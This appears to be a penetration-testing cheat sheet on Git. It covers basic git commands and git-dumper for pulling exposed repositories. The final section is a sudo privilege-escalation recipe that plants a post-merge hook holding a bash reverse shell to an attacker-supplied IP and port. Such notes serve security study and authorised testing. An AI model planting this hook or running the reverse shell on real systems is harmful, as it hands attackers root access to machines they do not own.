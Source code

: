 ```yaml
---
title: "Git"
date: 2025-7-25
tags: ["Git", "Git-Dumper", "Sudo", "Enumeration", "Web Exploitation"]
---
```


### General

```console
# Show status
git status
```

```console
# Reset the current branch to a previous commit
git reset --hard
```

```console
# Show information about files
git ls-files --stage
```

```console
# Show current branch
git branch
```

```console
# Show commits
git log <BRANCH_NAME> --oneline
```

```console
# Show diff, a and b are commit hash
# a is the older commit
git diff <A_COMMIT_HASH> <B_COMMIT_HASH>
```

```console
# Show commit
git show <COMMIT_HASH>
```

---

### Git Tools

{{< tab set1 tab1 >}}git-dumper{{< /tab >}}
{{< tab set1 tab2 >}}git-bundle{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
git-dumper <TARGET> result/
```

<small>*Ref: [git-dumper](https://github.com/arthaud/git-dumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# List all bundles
find . -type f -exec file {} \;
```

```console
# Get bundle
git clone -b master @hashed/ab/cd/<HASH>.bundle
```

{{< /tabcontent >}}

---

### Privesc #1: Create a Malicious Post-Merge

```console
# Copy target project
cp -r /var/www/html/project .
```

```console
# Create a malicious post-merge
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/<LOCAL_IP>/<LOCAL_PORT> 0>&1' > ./project/.git/hooks/post-merge
```

```console
# Run
sudo /usr/bin/git pull
```

<small>*Note: Make changes to the project to make the pull work*</small>
